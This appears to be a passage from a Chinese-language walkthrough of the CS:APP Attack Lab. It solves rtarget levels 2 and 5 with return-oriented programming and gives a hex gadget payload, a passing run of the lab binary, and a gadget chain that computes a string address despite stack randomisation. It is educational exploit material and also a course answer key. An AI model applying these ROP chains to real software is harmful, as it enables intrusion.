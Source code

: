 所以最后写入的 txt 文本为

```js
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 # 执行 pop %rax 指令 + retq
fa 97 b9 59 00 00 00 00 # cookie 的值 0x59b997fa
a2 19 40 00 00 00 00 00 # 执行 movq %rax, %rdi + retq
ec 17 40 00 00 00 00 00 # 执行 touch2
```

```shell
./hex2raw -i rtarget.2.txt | ./rtarget -q

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
```

### 0x2.2 Level 5

Level5 和 Level3 类似，不同点在于 Level3 使用自己插入的代码进行攻击，而 Level5 需要使用 gadget 的方式，这让任务变得更难了。

按照 Level3 的要求，需要传入一个字符串的指针，字符串由于有被栈覆盖的风险，所以需要放在栈顶的最大可能位置。在 Level3 里面获取字符串的地址比较容易，因为每次程序启动的地址都是一样的，这意味着每次都可以确定写入的字符串地址，但是在 Level5 中，这个方式并不可行，因为每次程序执行的地址都不一样。

那么有什么办法可以获取到字符串的地址呢？既然绝对地址不可获取，那么我们可以通过相对地址的方式来进行获取，具体来说就是通过 `getbuf` 执行完之后的地址作为基础地址，然后通过计算插入的字符串地址和这个位置的偏移量来得到最终的字符串地址。可以用下面的一个示意图来举例。

```js
movq %rsp, %rdi
popq %rsi
offset
lea  (%rdi,%rsi,1),%rdi
0x4018fa touch3 addr
"" string content
```

在 offset 上面的指令将栈帧 `%rsp` 放到 `%rdi` 中保存，这样就可以保留基础地址，然后将 offset 的值放到 `%rsi` 中，最后通过 `lea` 进行地址的计算，获得 string 的有效地址。如果可以自己插入指令去运行，非常简单就可以完成这个实验，但是问题是我们无法获取插入指令的地址，就像上面说的，每次地址都会变化，所以需要采用 gadget 的方式，即在已有代码中对片段进行选择。

通过在 _rtarget.s_ 中对代码片段进行挑选，通过组合之后可以获得下面的代码，其中 `movq %rsp, %rdi` 因为没有现成的代码片段，所以被拆分成了 `movq %rsp, %rax` 和 `movq %rax, %rdi`。

而 `popq %rsi` 则需要更多的指令进行完成，这里就不具体解释了，直接通过阅读下面的汇编代码就可以了解对应的内容。

```js
401a06   48 89 e0 c3       mov %rsp, %rax
4019c5   48 89 c7 90 c3    mov %rax, %rdi
4019cc   58 90 c3          popq %rax (72 -> %rax)
0x48(72) offset
401a20   89 c2 00 c9 c3    movl %eax, %edx
401a34   89 d1 38 c9 c3    movl %edx, %ecx
401a27   89 ce 38 c0 c3    movl %ecx, %esi
4019d6   48 8d 04 37 c3    (%rdi,%rsi,1),%rax
4019c5   48 89 c7 90 c3    movq %rax, %rdi
4018fa   touch addr
string content
```
